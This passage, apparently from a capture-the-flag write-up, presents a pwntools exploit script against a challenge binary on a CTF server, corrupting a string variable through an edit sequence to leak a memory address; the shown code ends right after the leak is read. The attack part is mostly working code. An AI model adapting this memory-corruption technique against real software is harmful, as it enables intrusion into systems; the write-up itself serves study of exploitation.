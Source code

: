 Here is my finished script:
```
from pwn import *

#target = process('./chall_patched', env={"LD_PRELOAD":"./libc-2.28.so"})

#pid = gdb.attach(target, "b *display+32\nb *create_variable+314\n set disassembly-flavor intel\ncontinue")

target = remote('host.cg21.metaproblems.com', 3150)

elf = ELF('chall')


def create_string(length, content):

	print(target.recvuntil(b'5. Exit'))
	target.sendline(b'1')
	print(target.recvuntil(b'What type would you like?'))
	target.sendline(b'1')
	print(target.recvuntil(b'like your string to be'))
	target.sendline(str(length))
	print(target.recvuntil(b'data'))
	target.sendline(content)

def edit_char(index, character):
	print(target.recvuntil(b'5. Exit'))
	target.sendline(b'3')
	print(target.recvuntil(b'What index would you like to modify'))
	target.sendline(str(index))
	print(target.recvuntil(b'What type would you like?'))
	target.sendline(b'4')
	print(target.recvuntil(b'What is your value:'))
	target.sendline(character)

def edit_string(index, length, data):
	print(target.recvuntil(b'5. Exit'))
	target.sendline(b'3')

	print(target.recvuntil(b'What index would you like to modify'))
	target.sendline(str(index))

	print(target.recvuntil(b'What type would you like?'))
	target.sendline(b'1')

	print(target.recvuntil(b'like your string to be'))
	target.sendline(str(length))

	print(target.recvuntil(b'data'))
	target.sendline(data)

def display():
	print(target.recvuntil(b'5. Exit\n'))
	target.sendline(b'2')

create_string(20, '0' * 20)
create_string(20, '1' * 20)

edit_char(0, b'\x70')
edit_string(0, 0, b'')

display()

leak = target.recv(6)
```